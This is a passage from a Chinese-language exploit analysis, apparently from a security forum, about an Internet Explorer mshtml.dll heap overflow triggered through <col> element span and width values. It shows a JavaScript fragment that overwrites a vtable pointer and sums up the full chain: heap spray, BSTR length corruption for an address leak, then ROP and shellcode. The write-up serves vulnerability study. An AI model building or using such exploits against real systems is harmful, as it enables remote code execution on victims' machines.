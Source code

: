`1666711552`是笔者环境中`mshtml.dll`基址十进制值。

 

第二次溢出：

<table border="0" cellpadding="0" cellspacing="0" class="syntaxhighlighter  python"><tbody><tr><td class="gutter">123456</td><td class="code"><code class="python plain">function smash_vtable()</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">{</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">var obj_col_0 </code><code class="python keyword">=</code> <code class="python plain">document.getElementById(</code><code class="python string">"132"</code><code class="python plain">);</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">obj_col_0.width </code><code class="python keyword">=</code> <code class="python string">"1178993"</code><code class="python plain">;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; </code><code class="python keyword">/</code><code class="python keyword">/</code> <code class="python plain">smash the vftable </code><code class="python value">0x07070024</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">obj_col_0.span </code><code class="python keyword">=</code> <code class="python string">"44"</code><code class="python plain">;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; </code><code class="python keyword">/</code><code class="python keyword">/</code> <code class="python plain">the amount to overwrite</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">}</code></td></tr></tbody></table>

写入发生于第28次循环，对应指令为`0x6368CD98`处`mov [esi+8], ebx`，写入前：

 

![](upload/attach/202102/817966_AXEAT2PUBZXY3DQ.jpg)

 

写入完成后调用该虚表指针时即可控制执行流。

 

最后，总结下利用思路：Heap Spray—>释放内存—>`<col>`占位—>堆溢出(更改BSTR长度位)—>"越界读"虚表指针，计算`mshtml.dll`基址—>Heap Spray(布局ROP+Shellcode)—>堆溢出(更改虚表指针到ROP+Shellcode地址)

0x03 参阅链接
---------

*   [HTMLElement.style](https://developer.mozilla.org/zh-CN/docs/Web/API/HTMLElement/style)
*   [display](https://developer.mozilla.org/zh-CN/docs/Web/CSS/display)
*   [Python实现生成相对地址的ROP](https://blog.csdn.net/qq_35519254/article/details/53234599)

  

[看雪学院推出的专业资质证书《看雪安卓应用安全能力认证 v1.0》（中级和高级）！](https://bbs.pediy.com/thread-265424.htm)